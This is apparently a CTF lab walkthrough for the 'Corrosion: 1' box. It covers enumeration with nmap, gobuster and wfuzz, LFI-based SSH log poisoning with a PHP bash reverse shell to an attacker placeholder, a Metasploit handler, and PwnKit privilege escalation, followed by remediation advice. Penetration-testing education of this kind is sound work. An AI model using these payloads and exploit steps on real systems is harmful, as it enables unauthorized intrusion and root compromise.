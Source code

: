 # Corrosion: 1 — TryHackMe / VulnHub CTF

**Objective**  
Gain initial access and escalate privileges on a Linux target by exploiting Local File Inclusion and leveraging a known kernel vulnerability.

---

## Discovery

**Goal:** Identify the target and exposed services.

Ran a basic Nmap scan:

```bash
nmap -sV -Pn <target-ip>
```

**Discovered open ports:**
- Port 80 — Apache HTTP
- Port 22 — SSH

➡ These services indicate remote access points and web interaction — perfect starting points.

---

## Enumeration

**Goal:** Uncover hidden directories and files

**Step 1 — Gobuster on root:**

```bash
gobuster dir -u http://<target-ip>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt,log
```

**Findings:**
- `/tasks`
- `/blog-post`

**Step 2 — Gobuster on `/blog-post`:**

```bash
gobuster dir -u http://<target-ip>/blog-post/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt,log
```

**Discovered:**
- `/archives` → Contained `randylogs.php`
- `/uploads`

---

## Foothold (LFI Discovery)

**Observation:**  
The file `randylogs.php` hinted at a Local File Inclusion vulnerability.

**Fuzzed using wfuzz:**

```bash
wfuzz -u http://<target-ip>/blog-post/archives/randylogs.php?FUZZ=/var/log/auth.log -w /usr/share/wordlists/dirb/common.txt --hw=65 --hh=0
```

✅ Found vulnerable `file` parameter.

---

## Gaining Access (Log Poisoning via LFI)

Exploited LFI to read `/var/log/auth.log`.

**Injected reverse shell into SSH logs using Netcat:**

```bash
nc <target-ip> 22
<?php system('bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1"'); ?>
```

**Triggered payload via LFI:**

```
http://<target-ip>/blog-post/archives/randylogs.php?file=/var/log/auth.log
```

**Listener (Metasploit):**

```bash
use exploit/multi/handler
set payload cmd/unix/reverse_bash
set LHOST <ATTACKER_IP>
set LPORT <PORT>
run
```

Reverse shell gained as `www-data`.

---

## Shell Upgrade

**Upgraded to Meterpreter:**

```bash
sessions
sessions -u <session_id>
```

Now had a stable and interactive session.

---

## Privilege Escalation

**Used Metasploit Local Exploit Suggester:**

```bash
use post/multi/recon/local_exploit_suggester
set SESSION <meterpreter_id>
run
```

**Suggested exploit:**  
- CVE-2021-4034 (PwnKit)

```bash
use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
set SESSION <meterpreter_id>
run
```

🎯 Result: Root access obtained!

---

## Remediation Steps

1. **Review Web Server Configurations**
   - Disable directory listing
   - Restrict direct access to `/archives`
   - Validate allowed upload types

2. **Sanitize User Input**
   - Whitelist acceptable parameters
   - Encode and validate file paths
   - Block directory traversal patterns

3. **Patch Known Vulnerabilities**
   - Update `polkit` to patch CVE-2021-4034
   - Regularly apply security updates to system packages and kernel

---

## 🏁 Status: **Rooted**

Successfully exploited LFI and escalated to root using a known kernel vulnerability.

**Full walkthrough with screenshots:**  
👉 [View the Medium post here](https://medium.com/@basitolasubomibalogun/corrosion1-ctf-vulnhub-technical-walkthrough-2a8f47179f4c)
